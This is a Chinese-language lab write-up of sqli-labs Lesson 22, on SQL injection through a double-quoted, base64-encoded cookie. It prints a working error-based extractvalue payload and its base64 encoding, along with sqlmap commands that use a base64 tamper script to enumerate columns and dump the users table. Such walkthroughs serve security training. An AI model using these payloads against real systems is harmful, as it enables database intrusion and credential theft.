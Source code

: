 ```yaml
---
title: sqli-labs-lession 22 base64编码加密的双引号Cookie注入
date: 2018-10-03 11:33:38
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession 22 base64编码加密的双引号Cookie注入

---

## 登录界面

![001](/img/sql/Lesson-22/001.png)

## 注入

看标题名字就知道只是变化了个引号,直接测试。

`admin"`的base64加密为`YWRtaW4i`

![002](/img/sql/Lesson-22/002.png)

其他都一样了,直接上payload

```
admin" and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#
#对应加密
YWRtaW4iIGFuZCBleHRyYWN0dmFsdWUobnVsbCxjb25jYXQoMHg3ZSwoc2VsZWN0IGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lID0gJ3VzZXJzJyksMHg3ZSkpIw==
```

![003](/img/sql/Lesson-22/003.png)

## SQLMAP

也是一样的过程,先在firefox浏览器设置代理,在用Burpsuite抓到刷新界面的包,在Cookie处加个*,保存到文件。

![004](/img/sql/Lesson-22/004.png)

```
--dbms 指定后端数据库
--technique E 指定注入类型为报错注入
--threads 10 指定并发线程数
--level 2 指定检测等级,等级2包括Cookie
--tamper base64encode.py 指定脚本为对base64encode.py(它会对payload进行base64加密)
--flush-session 刷新session
--fresh-queries 建立新的查询
```

`python sqlmap.py -r ../post/post_22.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py --flush-session --fresh-queries`

![005](/img/sql/Lesson-22/005.png)

![006](/img/sql/Lesson-22/006.png)

`python sqlmap.py -r ../post/post_22.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py -D security -T users --columns --dump`

![007](/img/sql/Lesson-22/007.png)

